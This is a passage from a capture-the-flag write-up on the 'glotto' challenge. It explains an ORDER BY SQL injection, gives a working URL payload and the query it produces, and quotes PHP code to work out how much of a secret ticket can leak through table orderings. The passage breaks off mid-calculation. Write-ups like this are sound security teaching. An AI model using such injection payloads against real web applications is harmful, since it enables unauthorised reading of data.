 Since we have to specify a valid column for the first `ORDER BY`, and each column has unique values, it seems like we won't be able to control the ordering. However, we can add on to the expression to make it always return the same value and force it to use the secondary sort column. I chose to use `IS NOT NULL`. With this, we can sort by an arbitrary value. Let's try just sorting randomly:

```
https://glotto.web.ctfcompetition.com/?order0=winner`%20IS%20NOT%20NULL,%20RAND()%20--%20
```

This gives the following query:

```sql
SELECT * FROM march ORDER BY `winner` IS NOT NULL, RAND() -- `
```

As expected, the March table is ordered differently each time we visit the page.

### Exploitation

So we have complete control over the ordering. Is this enough to transmit the entire winning ticket? Let's look at the `gen_winner` function:

```php
function gen_winner($count, $charset='0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ')
{
    $len = strlen($charset);
    $rand = openssl_random_pseudo_bytes($count);
    $secret = '';

    for ($i = 0; $i < $count; $i++)
    {
        $secret .= $charset[ord($rand[$i]) % $len];
    }
    return $secret;
}
```

And how it is called:

```php
$winner = gen_winner(12);
```

This is essentially a 12 digit base36 number, so there are `36**12` possible tickets:
```python
>>> 36**12
4738381338321616896
```

We are able to sort 4 different tables, of lengths 9, 8, 7, and 4. If we make the meaning of the ordering of each table depend on the ordering of the previous tables, we can calculate the number of possible "messages":

```python
>>> fac(9)*fac(8)*fac(7)*fac(4)
1769804660736000
```

This means we can narrow it down to about 2,677 possible tickets:
